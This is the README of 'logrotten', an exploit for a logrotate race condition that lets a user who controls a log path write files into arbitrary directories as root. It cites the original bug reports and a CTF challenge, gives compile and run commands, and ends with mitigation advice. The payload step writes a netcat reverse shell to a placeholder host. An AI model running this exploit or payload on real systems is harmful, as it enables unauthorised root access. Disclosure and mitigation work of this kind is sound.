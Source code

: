 # logrotten - a logrotate exploit

## [ Brief description ]
  - logrotate has a race condition vulnerability when it's exectued with
    "create"-option.
  - If logrotate is executed as root, with the "create"-option and the user
    the user is in control of the logfile path, it is possible to abuse a
    race-condition to write files in ANY directories.
  - An attacker could elevate his privileges by writing reverse-shells into 
    directories like "/etc/bash_completition.d/".
  - This vulnerability was reported by Marc Haber at the debian bug report
    ( https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=400198 )
  - and an issue was opened at the logrotate github-repository by cgzones
    ( https://github.com/cgzones )
  - This vulnerability was also a challenge at the 35c3 CTF 
    ( https://ctftime.org/event/718 )
  - A detailed description and a PoC of this challenge was written by the 
  - nsogroup ( https://blog.nsogroup.com/logrotate-zajebiste-500-points/ )

## [ Tested version ]
  - Debian GNU/Linux 9.5 (stretch)
  - logrotate 3.15.0

## [ Compile ]
  - gcc -o logrotten logrotten.c

## [ Prepare payload ]
```
echo "if [ `id -u` -eq 0 ]; /bin/nc -e /bin/bash myhost 3333 &; fi" > payloadfile
```

## [ Run exploit ]
```
./logrotten /tmp/log/pwnme.log payloadfile
```

## [ Mitigation ]
  - make sure that logpath is owned by root
  - or use option "nocreate"

## [ Author ]
  - Wolfgang Hotwagner

## [ Contact ]
  - [[ https://tech.feedyourhead.at ]]


